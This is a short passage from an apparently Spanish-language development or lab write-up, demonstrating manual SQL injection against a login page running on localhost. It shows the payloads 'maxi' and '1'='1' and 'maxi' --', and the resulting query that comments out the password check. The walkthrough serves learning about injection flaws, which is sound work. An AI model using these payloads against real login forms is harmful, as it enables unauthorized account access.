 

##### 4. Ejemplo de Exploit Manual

En `http://localhost:8888/users/login.php` se inyecta el siguiente payload:

`` `maxi` and '1'='1 ``

Esto provoca un error de sintaxis, pero evidencia que el sistema evalúa la consulta SQL sin filtrar correctamente:

![User panel](/assets/images/posts/atrium-desarrollo/usertest.png)

Posteriormente, se prueba el usuario creado con la inyección:

`maxi' --`

Consulta resultante:

`SELECT * FROM users WHERE (username='maxi' -- AND password='$pass');`

Captura del login exitoso:
